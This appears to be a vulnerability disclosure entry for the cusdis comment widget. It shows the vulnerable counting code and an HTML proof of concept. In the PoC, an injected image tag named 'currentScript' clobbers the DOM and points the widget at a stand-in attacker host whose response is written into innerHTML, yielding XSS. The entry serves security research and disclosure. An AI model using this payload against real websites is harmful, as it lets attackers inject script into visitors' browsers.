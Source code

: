 ## cusdis

### Meta

+ Library: cusdis
+ Stars: 2.6K
+ Version: v1.3.0
+ Payload: ```<img name="currentScript" data-host="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

https://github.com/djyde/cusdis


### Vulnerable Code Snippet

```javascript
async function n() {
  const e = document.currentScript || document.querySelector("#for-testing")
    , {appId: n, host: r} = e.dataset
    , a = r || "https://cusdis.com"
    , o = document.querySelectorAll("*[data-cusdis-count-page-id]")
    , i = Array.from(o).map((e => e.dataset.cusdisCountPageId))
    , s = await t.get(`${a}/api/open/project/${n}/comments/count`, {
      params: {
          pageIds: i
      }
  });
  Array.from(o).forEach((e => {
      e.innerHTML = s.data.data[e.dataset.cusdisCountPageId]
  }
  ))
}
```

### PoC
```html

<!--Library-->
<span data-cusdis-count-page-id="XXX-YYY-ZZZ">0</span> comments
<div id="cusdis_thread"
  data-host="https://cusdis.com"
  data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
  data-page-id="XXX-YYY-ZZZ"
  data-page-url="XXX"
  data-page-title="XXX"></div>
</div>
<script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
<script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-host="https://xxx.xxx.xxx">
<!--Payload-->
```